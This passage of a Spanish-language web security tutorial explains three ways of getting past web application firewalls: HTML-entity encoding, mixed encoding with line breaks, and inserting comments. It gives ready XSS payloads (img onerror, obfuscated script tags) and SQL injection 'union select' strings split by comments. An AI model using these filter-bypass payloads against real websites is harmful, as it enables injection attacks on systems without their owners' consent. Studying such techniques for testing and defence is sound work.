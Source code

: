### 4. Técnica de representación HTML

Las aplicaciones web codifican caracteres especiales en HTML. Codificarlos y renderizarlos en consecuencia. Casos de bypass básicos con codificación HTML numérica y genérica.

**Solicitud básica:**

```bash
<img src=x onerror=confirm()>
```

**Carga útil codificada:**

```bash
&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt;
```

**Carga útil codificada:**

> &#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62;

### 5. Técnica de codificación mixta

Estas reglas suelen tender a filtrar un tipo específico de codificación. Estos filtros pueden evitarse mediante cargas útiles de codificación mixta. Nuevas líneas y tabulaciones y se agregan más a la ofuscación.

**Ofuscar carga útil:**

```bash
<A HREF="h

tt p://6 6.000146.0x7.147/">XSS</A>
```

### 6. Uso de la técnica de comentarios

Los comentarios ofuscan los vectores de carga útil estándar. Diferentes cargas útiles tienen diferentes formas de ofuscarse.

**Bloqueado por WAF:**

```bash
<script>confirm()</script>
```

**Técnica omitida:**

```bash
<!--><script>confirm/**/()/**/</script>
```

**Bloqueado por WAF:**

```bash
/?id=1+union+select+1,2--
```

**Técnica omitida:**

```bash
/?id=1+un/**/ion+sel/**/ect+1,2--
```
